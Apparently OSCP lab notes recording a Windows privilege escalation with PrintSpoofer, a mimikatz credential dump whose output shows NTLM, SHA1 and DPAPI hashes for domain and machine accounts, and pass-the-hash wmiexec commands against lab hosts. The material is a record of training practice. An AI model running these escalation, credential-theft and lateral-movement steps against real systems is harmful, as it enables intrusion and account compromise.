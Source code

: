 ```c

 run printspoofer from cmd and it gets me SYSTEM

run mimikatz

wmiexec.py OSCP/celia.almeda@192.168.133.143 -hashes :e728ecbadfb02f51ce8eed753f3ff3fd
wmiexec.py OSCP/celia.almeda@192.168.133.144 -hashes :e728ecbadfb02f51ce8eed753f3ff3fd
wmiexec.py OSCP/celia.almeda@192.168.133.145 -hashes :e728ecbadfb02f51ce8eed753f3ff3fd

impacket-wmiexec -hashes :e728ecbadfb02f51ce8eed753f3ff3fd OSCP/celia.almeda@192.168.133.143
```

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 1626715 (00000000:0018d25b)
Session           : NetworkCleartext from 0
User Name         : eric.wallows
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 6/13/2025 10:36:13 PM
SID               : S-1-5-21-2610934713-1581164095-2706428072-7605
        msv :
         [00000003] Primary
         * Username : eric.wallows
         * Domain   : OSCP
         * NTLM     : a1f18f9362b5485cca07aedda6792454
         * SHA1     : c63e4068033a4397cb0abbadb716934c3c2c52f1
         * DPAPI    : 15ef55a6d30d57f599c128a6ec06155b
        tspkg :
        wdigest :
         * Username : eric.wallows
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : eric.wallows
         * Domain   : OSCP.EXAM
         * Password : (null)
        ssp :
        credman :
        cloudap :

Authentication Id : 0 ; 1619422 (00000000:0018b5de)
Session           : Service from 0
User Name         : sshd_2856
Domain            : VIRTUAL USERS
Logon Server      : (null)
Logon Time        : 6/13/2025 10:36:04 PM
SID               : S-1-5-111-3847866527-469524349-687026318-516638107-1125189541-2856
        msv :
         [00000003] Primary
         * Username : MS01$
         * Domain   : OSCP
         * NTLM     : 480c71437f014655a38ef46351ebd626
         * SHA1     : 68cfb5f5320a833c47c1302f57c85fbee210fba6
        tspkg :
        wdigest :
         * Username : MS01$
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : MS01$
         * Domain   : oscp.exam